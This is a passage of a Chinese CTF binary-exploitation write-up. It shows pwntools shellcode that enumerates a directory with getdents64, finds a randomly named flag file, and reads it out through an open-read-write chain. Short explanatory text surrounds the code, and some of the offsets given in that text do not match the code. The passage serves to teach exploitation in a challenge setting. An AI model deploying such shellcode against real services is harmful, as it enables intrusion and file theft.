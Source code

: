 我们需要先构造写到 bss 段的 read 函数来读入目录名

[![](assets/1698893341-6500445ba4eb292124875849e96b4d2d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231026121905-cd14ef0a-73b6-1.png)

```plain
#OGW
shellcode = b''
shellcode += asm(shellcraft.open('./'))
shellcode += asm(shellcraft.getdents64(3, bss+0x300, 0x100))
shellcode += asm(shellcraft.write(1,bss+0x300, 0x100))
shellcode += asm('''
        mov rdi, 0; mov rsi, 0x%x;mov rdx, 0x100;mov rax, 0; syscall; push rsi; ret;
        ''' % (main))

p.send(shellcode)
```

这里核心是 getdents64 系统调用，它读取目录文件中的一个个目录项 (directory entry) 并返回

我们首先在 bss+0x30 构造了第一个 read 用于下面读取'./'，ogw 实现将 getdents64 读取的目录参数读入 bss+0x100，再打印出来

```plain
p.recvuntil('flag')
flag20 = b'flag'+p.recv(20)
print(flag20) #flag16db44a3ec6a5c404373
```

[![](assets/1698893341-c3469a33af439fc73e270324393fde57.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231026121922-d71d9c36-73b6-1.png)

接受到 flag 文件名后我们便可以通过构造第二个 read 输入'flag16db44a3ec6a5c404373'构成 './flag16db44a3ec6a5c404373' ，然后通过 orw 读写放入 bss+0x200 段的 flag 文件的内容

```plain
#read(0,bss+0x400,0x100)
p.sendline('-1')

#ORW
p.recvuntil('done!\n')
shellcode = b''
shellcode += asm(shellcraft.open('flag16db44a3ec6a5c404373'))
shellcode += asm(shellcraft.read(4,bss+0x600,0x100))
shellcode += asm(shellcraft.write(1,bss+0x600,0x100))
shellcode += asm('''
        mov rdi, 0; mov rsi, 0x%x;mov rdx, 0x100;mov rax, 0; syscall; push rsi; ret;
        ''' % (main))
p.send(shellcode)
```
